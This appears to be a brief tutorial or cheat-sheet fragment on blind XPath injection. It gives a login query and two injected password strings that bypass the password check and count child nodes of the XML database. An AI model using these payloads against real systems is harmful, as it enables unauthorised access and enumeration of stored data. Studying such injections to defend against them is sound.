 #xpathi

### Get Number of Child in a Node :
Code
```
/db/users/user[username='admin' and password='$pass']
```

Injection 
```
$password = ' or count(/db/*) = 1 and '1
```
Result
```
/db/users/user[username='admin' and password='' or count(/db/*) = 1 and '1'
```
→ true

Injection 2
```
$password = ' or count(/db/*) = 2 and '1
```
Result
```
/db/users/user[username='admin' and password='' or count(/db/*) = 2 and '1'
```
→ false